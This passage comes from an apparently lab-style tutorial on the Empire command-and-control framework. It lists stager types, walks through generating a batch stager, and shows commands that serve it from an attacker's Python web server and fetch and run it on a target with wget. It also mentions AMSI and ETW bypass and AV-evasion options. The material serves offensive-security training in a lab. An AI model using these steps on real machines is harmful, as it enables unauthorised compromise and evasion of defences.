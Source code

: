 * windows/ducky - Ducky script for the USB Rubber Ducky for physical USB attacks.
* windows/hta - HTA server an HTML application protocol that can be used to evade AV.
* osx/applescript - Stager in AppleScript: Apple's own programming language.
* osx/teensy - Similar to the rubber ducky is a small form factor micro-controller for physical attacks.

Each stager can have its own uses and strengths to it. For this room, we will be using multi/launcher and windows/launcher_bat to continue throughout the room.

**Generating a Stager**

1. Go to the stagers tab and select 'GENERATE STAGER'.

![](https://lh3.googleusercontent.com/B5adQnf9W9IYvIFLtDLhg5Fe-vg98bSXVMtDGicU8QJfiQqxraG1HTDKhHPy4erMRO-pIBNGbESO-Kqiajn3cBKFuhnAFAh3fr-BUOP8JXeuWNSjC006t7cIOq93H-7kZY99sPx4)

2. Select your stager type, for our demo, we’ll use windows/launcher_bat.

![](https://lh3.googleusercontent.com/KOSQXeSPb0S0NOOEpyg2yUgzCYfhrMpa6GW4-pQduq2NdZTPAlb8r2Dug64YxBaLc2SmpPCoiEdlvJa4ZIzdgWW8NfL7wTKZLk1SDRPuApTEy5-pTGzrqzwBn_S5kOmeDutzavzb)

3. Set the listener to the one you made in the previous task.

![](https://lh5.googleusercontent.com/XnVCTqTDtjzkLqNSynxpwrhpKzPi2utnZa-eEFKtg4J_9GRQRylpYaaB-hg0iC-YlDB3ciXwhrtH0usQ6fXk18PHtN8MkOHkztqudp105n3aOW5zXnC5D5WiHfhvJuA7-hZAmJzY)

The menu for creating a stager does not have many options but can allow you to customize each stager to your liking, with the listener of your choosing. The stager menu can come with various options depending on the stager selected as well as optional fields.

* Listener - Select which listener to use from a list of created listeners on the Empire server.
* Base64 - Enable or disable stager encoding with base64.
* Language - Language used to create the stager: bash, PowerShell, Python, etc.
* SafeChecks - Enable or disable checks for the stager.

I encourage you to explore more of the optional fields; however, these are out of scope for this room. Some of the optional fields include ASMIBypass, Obfuscate, ETWBypass, etc.

4. We now have a stager ready to deploy to our target depending on the stager type you selected you will have to either download or copy and paste the stager to the target machine.

![](https://lh4.googleusercontent.com/i2vPqhn9CGjpaHb47LJ1ZTPLhEqIF0bJ68c9y5jmKaKVeE5c9dfSe4uWVDEln7_p-8puRfppTF1pnbhA6avUUmCn7RYC2nVW0b4a01sN9-Ic0UYi_-Wqbk2ur-vYi4qdGYq2_6Y8)

**Transferring & Executing the Stager**

Attacking Machine:

There are many ways that you can send the stager to the target machine including, scp, phishing, and malware droppers; for this example, we will use a basic python 3 server and wget to transfer the stager.

1. python3 -m http.server

Target Machine:

1. wget TUN0_IP:8000/launcher.bat -outfile launcher.bat
2. ./launcher.bat

![](https://i.imgur.com/xRfiQiS.png)

Below is what the multi/launcher PowerShell payload will look like with the powershell -noP -sta -w 1 -enc launcher that we provided when creating the listener. The launcher will take the encoded payload and decode then run it, in this case, the payload will still get picked up by AV however you can adjust the launching and obfuscation commands to bypass AV or other detections.
